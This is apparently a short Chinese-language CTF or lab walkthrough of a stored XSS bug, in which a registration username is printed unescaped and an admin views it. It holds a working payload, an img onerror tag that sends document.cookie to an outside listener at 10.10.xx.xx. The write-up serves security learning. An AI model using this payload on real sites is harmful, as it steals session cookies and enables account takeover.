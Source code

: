 可以看到这里是直接将用户名输出到页面

在**contest.php**中随意上传一个图片,然后等待管理员来查看获取到**cookie**

因此注入点就是注册时候的用户名

```
<img src=1 onerror=this.src="http://10.10.xx.xx/?ccc="+encodeURIComponent(document.cookie)>
```

![](./images/image-3.png)

监听得到**cookie**
